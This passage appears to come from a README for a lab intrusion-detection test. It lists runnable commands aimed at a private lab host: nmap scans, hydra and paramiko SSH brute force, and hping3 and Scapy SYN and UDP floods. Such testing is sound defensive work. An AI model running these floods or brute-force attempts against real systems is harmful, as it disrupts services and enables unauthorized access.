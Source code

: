 ### Comprehensive Attack Test
```bash
# On attacker machine
python3 attacker_test_suite.py
```

### Individual Attack Tests

#### 1. Port Scanning
```bash
# Basic scan
nmap 192.168.100.10

# Aggressive scan
nmap -A -T4 192.168.100.10

# Port range scan
nmap -p 1-1000 192.168.100.10
```

#### 2. SSH Brute Force
```bash
# Using hydra
hydra -L users.txt -P passwords.txt 192.168.100.10 ssh

# Using Python script
python3 -c "
import paramiko
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
ssh.connect('192.168.100.10', username='admin', password='admin')
"
```

#### 3. SYN Flood Attack
```bash
# Using hping3
hping3 -S -p 80 --flood 192.168.100.10

# Using Python/Scapy
python3 -c "
from scapy.all import *
send(IP(dst='192.168.100.10')/TCP(dport=80, flags='S'), loop=1)
"
```

#### 4. UDP Flood Attack
```bash
# Using hping3
hping3 -2 -p 53 --flood 192.168.100.10

# Using Python/Scapy
python3 -c "
from scapy.all import *
send(IP(dst='192.168.100.10')/UDP(dport=53)/Raw(load='A'*100), loop=1)
"
```
